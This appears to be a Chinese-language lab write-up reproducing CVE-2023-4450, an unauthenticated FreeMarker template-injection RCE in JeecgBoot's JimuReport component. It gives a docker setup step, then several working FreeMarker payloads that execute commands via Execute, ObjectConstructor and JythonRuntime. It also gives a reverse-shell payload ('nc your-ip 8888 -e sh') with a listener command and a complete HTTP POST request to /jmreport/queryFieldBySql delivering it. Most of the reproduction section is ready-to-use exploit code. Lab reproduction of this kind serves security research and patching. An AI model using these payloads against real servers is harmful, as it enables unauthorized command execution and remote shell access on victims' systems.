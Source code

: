 # JeecgBoot SSTI CVE-2023-4450

## 漏洞描述

JeecgBoot 是一个开源的低代码开发平台，Jimureport 是低代码报表组件之一

当前漏洞在 1.6.1 以下的 Jimureport 组件库中都存在. 由于未授权的 API `/jmreport/queryFieldBySql` 使用了 freemarker 解析 SQL 语句从而导致了 RCE 漏洞的产生.

参考链接：

- https://www.oscs1024.com/hd/MPS-4hzd-mb73
- https://www.reajason.eu.org/writing/freemarkersstimemshell
- https://github.com/jeecgboot/JimuReport

## 环境搭建

Vulhub执行如下命令启动 3.5.3 版本的 JeecgBoot 后端:

```
docker compose up -d
```

在服务启动后，可访问 `http://your-ip:8080/jeecg-boot/jmreport/list` 积木工作台页。

![image-20231021151233971](images/image-20231021151233971.png)

## 漏洞复现

点击新建图表 → 选择SQL数据集 → 报表SQL中填写 Payload → 点击SQL解析。

poc：

```
<#assign ex="freemarker.template.utility.Execute"?new()>${ex("nc your-ip 8888 -e sh")}
```

```
<#assign value="freemarker.template.utility.ObjectConstructor"?new()>${value("java.lang.ProcessBuilder","calc").start ()}
```

others（https://mp.weixin.qq.com/s/eT32vnk_8anS3e-2B287cA）：

```
{"sql":"<#assign value=\"freemarker.template.utility.Execute\"?new()>${value(\"calc.exe\")}","dbSource":"","paramArray":"","type":""}

#sql的其它可用poc：
<#assign 
value=\"freemarker.template.utility.ObjectConstructor\"?new()>${value(\"java.lang.ProcessBuilder\",\"calc.exe\").start()}

#jython的调用需要满足目标类路径中包含org.python的包，本地复现时引入jython-standalone可正常执行命令
<#assign 
value=\"freemarker.template.utility.JythonRuntime\"?new()><@value>import os;os.system(\"calc.exe\")</@value>
```

反弹Shell，使用 nc 开启监听端口 8888：

```
 nc -vvl 8888
```

通过 `http://your-ip:8080/jeecg-boot/jmreport/queryFieldBySql` sql 参数传递 freemarker payload。

```
POST /jeecg-boot/jmreport/queryFieldBySql HTTP/1.1
Host: your-ip:8088
Content-Type: application/json

{
    "sql": "<#assign ex=\"freemarker.template.utility.Execute\"?new()>${ex(\"nc your-ip 8888 -e sh\")}",
    "type": "0"
}
```